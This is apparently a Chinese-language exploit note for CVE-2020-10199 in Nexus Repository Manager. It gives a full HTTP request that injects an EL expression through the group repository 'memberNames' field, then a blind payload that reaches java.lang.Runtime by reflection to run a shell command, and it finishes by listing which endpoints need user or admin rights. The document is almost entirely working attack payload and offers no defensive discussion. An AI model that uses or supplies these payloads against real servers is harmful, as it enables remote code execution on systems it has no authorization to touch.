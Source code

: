 # CVE-2020-10199 远程代码命令执行

## 回显poc

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[session-id]
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

## 不回显poc
$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10199')}

## 普通用户权限

/service/rest/beta/repositories/go/group

## 需要管理员权限

创建CleanupPolicy
/service/extdirect

## 创建repositories

/service/rest/beta/repositories/apt/hosted